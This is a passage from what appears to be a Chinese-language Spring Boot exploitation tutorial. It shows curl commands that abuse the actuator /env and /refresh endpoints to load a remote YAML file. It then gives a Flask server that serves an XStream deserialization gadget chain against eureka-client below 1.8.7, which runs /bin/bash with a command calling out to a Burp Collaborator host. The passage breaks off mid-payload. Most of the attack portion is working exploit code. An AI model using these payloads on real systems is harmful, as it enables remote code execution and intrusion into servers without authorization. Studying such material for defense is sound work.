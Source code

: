 **(2) 利用**

```plain
curl -X POST --data 'spring.cloud.bootstrap.location=http://127.0.0.1:9091/example.yml' localhost:9092/env
```

刷新即可成功触发

```plain
curl -X POST localhost:9092/refresh
```

[![](assets/1711556137-a55d14946a30eef8bf96233a4565e0bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620111847-3a428c44-d176-1.png)

- - -

#### **2.eureka xstream deserialization RCE**

```plain
cd springboot-eureka-xstream-rce
mvn spring-boot:run
```

> 影响版本：eureka-client < 1.8.7
> 
> 目前最新版:3.03

**(1) 编写利用脚本**

```plain
#!/usr/bin/env python
# coding: utf-8

from flask import Flask, Response

app = Flask(__name__)


@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods=['GET', 'POST'])
def catch_all(path):
  command = "curl i5o45whthqsvd5uhahnx5p0z9qfh36.burpcollaborator.net"
  xml = """<linked-hash-set>
  <jdk.nashorn.internal.objects.NativeString>
    <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
      <dataHandler>
        <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
          <is class="javax.crypto.CipherInputStream">
            <cipher class="javax.crypto.NullCipher">
              <serviceIterator class="javax.imageio.spi.FilterIterator">
                <iter class="javax.imageio.spi.FilterIterator">
                  <iter class="java.util.Collections$EmptyIterator"/>
                  <next class="java.lang.ProcessBuilder">
                    <command>
                       <string>/bin/bash</string>
                       <string>-c</string>
                       <string>{command}</string>
                    </command>
```